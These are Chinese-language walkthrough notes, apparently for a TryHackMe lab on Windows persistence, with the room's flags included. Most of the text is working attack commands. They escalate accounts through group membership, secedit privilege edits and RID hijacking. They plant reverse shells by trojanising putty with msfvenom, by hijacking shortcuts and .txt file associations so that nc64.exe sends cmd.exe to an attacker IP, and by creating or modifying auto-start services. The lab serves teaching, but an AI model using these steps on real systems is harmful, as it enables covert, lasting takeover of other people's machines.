 # Task 2  Tampering With Unprivileged Accounts

## Assign Group Memberships(分配组成员)

最简单的方法，直接分配到管理员组
```
net localgroup administrators thmuser0 /add
```

缺点就是容易被发现

比较隐蔽的方法，分配到```Backup Operators```组，从而可以读取写入任何文件，包括sam和system，这样就可以随时dump出哈希
```
 net localgroup "Backup Operators" thmuser1 /add
```

如果上面操作以后依然无法完全使用Backup Operators的组能力（被禁用），在注册表下修改,禁用 LocalAccountTokenFilterPolicy
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```


## Special Privileges and Security Descriptors(特殊权限和安全描述符)

对于 Backup Operators 组，它默认分配有以下两个权限：

SeBackupPrivilege：用户可以读取系统中的任何文件，而忽略任何到位的DACL 。
SeRestorePrivilege：用户可以写入系统中的任何文件，而忽略任何到位的DACL 。

导出配置文件
```
secedit /export /cfg config.inf
```

我们打开文件并将我们的用户添加到配置中有关 SeBackupPrivilege 和 SeRestorePrivilege 的行中

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/765671a0355e2260c44e5a12a10f090e.png)

我们最终将 .inf 文件转换为 .sdb 文件，然后用于将配置加载回系统

```
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

要打开 WinRM 安全描述符的配置窗口，您可以在 Powershell 中使用以下命令（您需要为此使用 GUI 会话）

```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

给完全控制权限

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/380c80b98c4d1f8c2149ef72427cfeb0.png)


## RID Hijacking(RID 劫持)

RID 是 SID 的最后一位（thmuser3 为 1010，Administrator 为 500）

打开注册表
```
C:\tools\pstools> PsExec64.exe -i -s regedit
```

从Regedit，我们将转到HKLM\SAM\SAM\Domains\Account\Users\机器中每个用户都有一个密钥的地方。由于我们要修改 thmuser3，我们需要搜索其 RID 为十六进制 (1010 = 0x3F2) 的密钥。在对应的键下，会有一个名为F的值，它将用户的有效 RID 保存在 0x30 位置

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/d630140974989748ebcf150ba0696d14.png)

我们现在将这两个字节替换为十六进制管理员的 RID (500 = 0x01F4)，切换字节 (F401)
改为：
![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/8f2072b6d13b7343cf7b890586703ddf.png)

下次 thmuser3 登录时，LSASS 会将其与administrator相同的 RID 关联，并授予他们相同的权限


Insert flag1 here
THM{FLAG_BACKED_UP!}

Insert flag2 here
THM{IM_JUST_A_NORMAL_USER}


Insert flag3 here
THM{TRUST_ME_IM_AN_ADMIN}

# Task 3  Backdooring Files

## Executable Files

方法一：直接把shell code注入到正常的程序当中
```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```


方法二：利用快捷方式里“属性”（properties）的target字段，原理为更换为我们的ps文件，在启动源程序的同时执行rev shell

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7a7349b9dcc5af3180044ee1d7605967.png)

准备一个PS脚本
```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.13.21.169 4445"

C:\Windows\System32\calc.exe
```

替换快捷方式里面的值
```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/fe703ddea6135e0c867afcc6f61a8cd2.png)



## Hijacking File Associations(劫持文件关联)

当打开一个txt文件时，系统实际上执行的是
```
%SystemRoot%\system32\NOTEPAD.EXE %1
```

%1代表打开文件的名称

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c3565cf93de4990f41f41b25aed80571.png)

准备一个PS脚本

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.13.21.169 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

修改打开txt文件时，指定执行我们的脚本

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f7ed25a701cf20ea85cf333b20708ffe.png)

现在当用户点击任何txt文件时都会反弹一个shell

Insert flag5 here
THM{NO_SHORTCUTS_IN_LIFE}

Insert flag6 here
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}

# Task 4  Abusing Services

## Creating backdoor services

通过创建一个自启动的服务，指定自启动的执行完文件，每次开机时返回一个shell

编译一个payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.169 LPORT=4448 -f exe-service -o rev-svc.exe
```

开启一个自启服务
```
sc.exe create THMservice2 binPath= "C:\Users\Administrator\Desktop\rev-svc.exe" start= auto
sc.exe start THMservice2
```

重启生效

## Modifying existing services（修改现有服务）

原理跟上面是一样的，只是这里是修改一个原有的，未启动的服务（因为我们未必有创建服务的权限）
```
sc.exe config THMservice3 binPath= "C:\Users\Administrator\Desktop\rev-svc.exe" start= auto obj= "LocalSystem"
```

重启生效